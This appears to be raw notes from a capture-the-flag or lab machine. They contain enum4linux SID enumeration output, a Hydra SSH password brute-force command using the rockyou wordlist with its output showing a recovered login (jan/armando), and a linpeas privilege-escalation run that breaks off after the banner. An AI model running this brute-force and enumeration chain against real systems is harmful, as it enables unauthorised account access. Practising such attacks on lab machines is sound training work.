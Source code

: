 S-1-5-21-2853212168-2008227510-3551253869-1042 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1043 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1044 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1045 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1046 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1047 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1048 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1049 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-1050 *unknown*\*unknown* (8)

 ============================================= 
|    Getting printer info for 10.10.90.140    |
 ============================================= 
No printers returned.


enum4linux complete on Thu Nov  5 09:46:20 2020


Hydra:

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.90.140
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2020-11-05 09:55:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.90.140:22/
[STATUS] 262.00 tries/min, 262 tries in 00:01h, 14344142 to do in 912:29h, 16 active
[STATUS] 247.67 tries/min, 743 tries in 00:03h, 14343661 to do in 965:16h, 16 active
[22][ssh] host: 10.10.90.140   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2020-11-05 09:58:54


jan@basic2:/dev/shm$ ./linpeas.sh | tee linlog.txt


                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄